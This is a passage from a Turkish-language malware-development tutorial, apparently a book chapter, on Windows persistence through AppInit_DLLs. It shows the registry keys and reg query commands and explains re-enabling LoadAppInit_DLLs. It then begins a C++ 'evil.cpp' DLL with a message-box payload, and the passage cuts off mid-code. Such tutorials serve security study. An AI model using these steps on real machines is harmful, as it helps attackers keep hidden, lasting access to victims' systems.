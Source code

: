 \newpage
\subsection{71. kötü amaçlı yazılım geliştirme: kalıcılık - bölüm 5. AppInit_DLLs. Basit C++ örneği.}

![pers](./images/55/2022-05-16_07-00.png){width="80%"}    

Bu bölüm, Windows'ta kötü amaçlı yazılım kalıcılığına yönelik teknikler ve yöntemler serisinin bir sonraki parçasıdır.    

Bugün, kendi araştırmalarımın bir sonucu olarak keşfettiğim başka bir kalıcılık yöntemini ele alacağım: AppInit_DLLs.    

Windows işletim sistemleri, neredeyse tüm uygulama süreçlerinin özel DLL'leri adres alanlarına yüklemesine olanak tanıyan bir özelliğe sahiptir. Bu, herhangi bir DLL'in sistemde uygulama süreçleri oluşturulduğunda yüklenip çalıştırılmasına izin verdiğinden, bir kalıcılık yöntemi olarak kullanılabilir.      

### AppInit DLL'leri

Bu yöntemi uygulamak için yönetici düzeyinde ayrıcalıklara sahip olmak gereklidir. AppInit üzerinden DLL yüklemelerini düzenleyen aşağıdaki kayıt defteri anahtarları bulunmaktadır:    

- `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows` - 32-bit     

- `HKEY_LOCAL_MACHINE\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows` - 64-bit    

İlgilendiğimiz değerler şunlardır:    

```powershell
reg query \
"HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /s
```

![pers](./images/55/2022-05-16_00-21.png){width="80%"}    

ve `64-bit` için:   

```powershell
reg query \
"HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\
Windows" \
 /s
```

![pers](./images/55/2022-05-16_01-20.png){width="80%"}    

Microsoft, Windows kullanıcılarını kötü amaçlı yazılımlardan korumak için AppInit DLL’leri üzerinden DLL yüklemeyi varsayılan olarak devre dışı bırakmıştır (`LoadAppInit_DLLs`). Ancak, `LoadAppInit_DLLs` kayıt defteri anahtarını `1` olarak ayarlayarak bu özelliği etkinleştirebiliriz.    

### pratik örnek

Öncelikle, kötü amaçlı bir DLL oluşturalım. Her zamanki gibi, "meow-meow" mesaj kutusunu açan bir mantık kullanacağım:    

```cpp
/*
evil.cpp
inject via Appinit_DLLs
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/16/malware-pers-5.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

extern "C" {
  __declspec(dllexport) BOOL WINAPI runMe(void) {
```